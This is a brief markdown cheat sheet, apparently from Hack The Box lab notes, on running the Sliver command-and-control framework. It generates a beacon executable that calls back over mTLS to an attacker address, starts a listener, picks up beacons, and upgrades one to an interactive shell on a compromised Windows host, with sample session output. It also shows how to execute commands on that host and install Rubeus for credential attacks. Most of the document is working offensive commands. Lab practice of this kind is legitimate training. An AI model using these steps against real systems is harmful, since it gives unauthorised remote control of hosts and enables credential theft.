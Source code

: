 # Sliver C2  
## Generate a beacon  
sliver > `generate beacon --mtls 10.10.16.20:80 --save /home/kali/HTB/lab/bc1.exe`  
  
## Setup the listener  
sliver > `mtls --lhost 10.10.16.20 --lport 80`  

## Navigate  
### Beacons  
sliver > `jobs`   
sliver > `beacons`  
sliver > `use 94ba864f`  
  
[*] Active beacon PERFECT_WALL (94ba864f-991f-4a8f-9242-06c1e66d47b6)    
      
OR     
sliver > `use beacons`   
Select the beacon using arrows to move    
  
### Sessions (interactive)    
Once in the beacon shell, it is possible to turn the beacon shell into a session (interactive) shell with the following command :   
sliver (SOLID_TINDERBOX) > `interactive`    
    
The new session appears :    
sliver (SOLID_TINDERBOX) > `sessions`     
| ID       | Transport | Remote Address     | Hostname | Username                      | Operating System | Health  |
| -------- | --------- | ------------------ | -------- | ----------------------------- | ---------------- | ------- |
| 437faed6 | mtls      | 10.10.110.10:51443 | cywebdw  | NT AUTHORITY\\NETWORK SERVICE | windows/amd64    | [ALIVE] | 
  
sliver (SOLID_TINDERBOX) > `use 437faed6`    
  
Now we got an interactive session shell.    

### Execute commands in a session   
sliver (PERFECT_WALL) > `execute -o <command>`  

### Load tools  
sliver (PERFECT_WALL) > `armory install rubeus`  
  
  





